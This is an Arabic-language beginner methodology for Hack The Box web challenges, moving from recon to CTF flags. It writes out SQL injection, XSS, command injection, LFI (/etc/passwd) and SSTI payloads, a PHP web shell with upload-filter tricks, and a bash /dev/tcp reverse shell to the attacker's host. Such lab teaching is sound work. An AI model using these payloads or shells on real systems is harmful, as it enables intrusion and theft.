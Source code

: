 # 🕸 Web Exploitation Methodology for HTB (Beginner-Friendly)

## ⚠️ مقدمة
هذا الملف يقدم لك ميثودولوجية (منهجية) كاملة لحل تحديات **Hack The Box** المتعلقة باختبار اختراق المواقع (Web Exploitation). مناسب للمبتدئين، كل خطوة مشروحة بتفصيل عميق عشان تفهم مو بس تطبق.

---

## ✅ 1. جمع المعلومات (Reconnaissance)

### 🔹 1.1 فحص البورتات
نستخدم أداة `nmap` عشان نعرف البورتات المفتوحة على السيرفر:

```bash
sudo nmap -sS -sV -sC -A -T4 -Pn -p- -oN sequl.txt 10.129.195.162
```

- `-p-` : يفحص كل البورتات (1 إلى 65535)
- `-sS` : يعمل فحص SYN (سريع وخفي)
- `-Pn` : يتجاهل فحص الـ ping (لو كان الجهاز يحجب الـ ping)
- `-T4` : لتسريع الفحص


### 🔹 1.2 فحص الخدمات الموجودة على البورتات
بعد ما نعرف البورتات، نستخدم هذا الأمر لمعرفة نوع الخدمات والإصدارات:

```bash
nmap -sC -sV -p80,443 -oN web_scan.txt <IP>
```

- `-sC` : يشغل سكربتات nmap الافتراضية
- `-sV` : يتعرف على إصدار كل خدمة
- `-oN` : لحفظ النتائج في ملف

### 🔹 1.3 استكشاف الملفات والمجلدات
نستخدم أدوات مثل `ffuf` أو `feroxbuster` للبحث عن صفحات مخفية:

```bash
ffuf -u http://<IP>/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.html,.txt
```

- `-w` : تحدد قائمة الكلمات لتجريبها
- `-e` : إضافات الملفات الممكنة

### 🔹 1.4 معرفة التقنيات المستخدمة
```bash
whatweb <IP>
wafw00f <IP>
```

- `whatweb` : يخبرك إذا الموقع يستخدم WordPress أو Laravel أو غيره.
- `wafw00f` : يكشف إذا فيه Web Application Firewall يحجب الطلبات.

---

## 🔍 2. تحليل منطق الموقع

- افتح الموقع في المتصفح، وشغّل أدوات المطور (DevTools):
  - Network → راقب الاتصالات
  - Console → تظهر أخطاء الجافاسكربت
  - Cookies & Local Storage → يمكن فيها توكن أو صلاحيات

- اقرأ كود HTML جيداً، مرات يكتبون فيه تعليقات مهمة.

---

## 🔐 3. تجاوز تسجيل الدخول (Authentication Bypass)

- جرب إدخال SQL Injection في الحقول:

```
' OR '1'='1 --
```

- جرب أسماء مستخدمين وكلمات مرور معروفة:
  - admin:admin
  - guest:guest

- جرب استخدام أدوات مثل Burp Suite لاعتراض وتعديل الطلبات.

---

## 🧪 4. اختبار الحقول يدوياً (Manual Testing)

- XSS:
```html
<script>alert(1)</script>
```

- Command Injection:
```
127.0.0.1;id
```

- LFI:
```
../../../../etc/passwd
```

- SSTI (Server Side Template Injection):
```
{{7*7}} أو ${7*7}
```

- تحقق من الهيدرز:
  - X-Forwarded-For
  - Host

---

## 🧷 5. تحليل ملفات JavaScript

```bash
curl http://<IP>/js/app.js
```

- شوف هل فيه endpoints مخفية أو توكنات أو كلمات مرور.

---

## 📤 6. ثغرات رفع الملفات

لو فيه مكان ترفع فيه ملف:
- جرب ترفع shell بامتداد `.php`
- جرب خداع الفلتر بأسماء مثل:
  - `shell.php.jpg`
  - `shell.phtml`

محتوى shell بسيط:

```php
<?php system($_GET['cmd']); ?>
```

ثم تنفذه:

```bash
curl http://<IP>/uploads/shell.php?cmd=id
```

---

## 🍪 7. التلاعب بالكوكيز (Cookies)

- إذا الكوكي مشفر بـ Base64، افكه وشف المحتوى.
- إذا الكوكي JWT، جرب تعدل الـ payload.
- مرات الكوكي يحتوي role=admin أو user_id.

---

## 🧱 8. هل الموقع CMS معروف؟

- WordPress؟ استعمل:

```bash
wpscan --url http://<IP> --enumerate u
```

- Joomla؟ استعمل:
```bash
droopescan scan joomla -u http://<IP>
```

---

## 🧠 9. الوصول الأولي (Initial Access)

لو حصلت استغلال ناجح (XSS, File Upload, RCE)، حاول تجيب **Reverse Shell**:

```bash
bash -i >& /dev/tcp/<YourIP>/4444 0>&1
```

وفي جهازك:
```bash
nc -lvnp 4444
```

---

## 🔼 10. تصعيد الصلاحيات (Web Privilege Escalation)

بعد ما تدخل:
- شوف الملفات القابلة للقراءة (config.php, .env)
- هل فيه ملفات dev؟ أو سكربتات نسوا يحذفوها؟
- هل فيه cron job تستدعي سكربت قابل للتعديل؟

---

## 🏁 11. الحصول على الـ Flags

- `user.txt` دايمًا يكون في `/home/<user>/`
- `root.txt` دايمًا يكون في `/root/`

استخدم `cat` لقراءتهم.

---

## 🧰 أدوات ثابتة

| المرحلة | الأدوات |
|---------|---------|
| فحص البورتات | nmap |
| اكتشاف الملفات | ffuf, feroxbuster |
| اختبار يدوي | Burp Suite, curl |
| فحص CMS | wpscan, droopescan |
| Shells | nc, revshells.com |
| قراءة ملفات | cat, strings, grep |

---

## ✅ نصيحة أخيرة

لا تحفظ الثغرات، افهم المنطق. كل ما فهمت كيف المبرمج أخطأ، كل ما قدرت تستغل بسهولة.

---
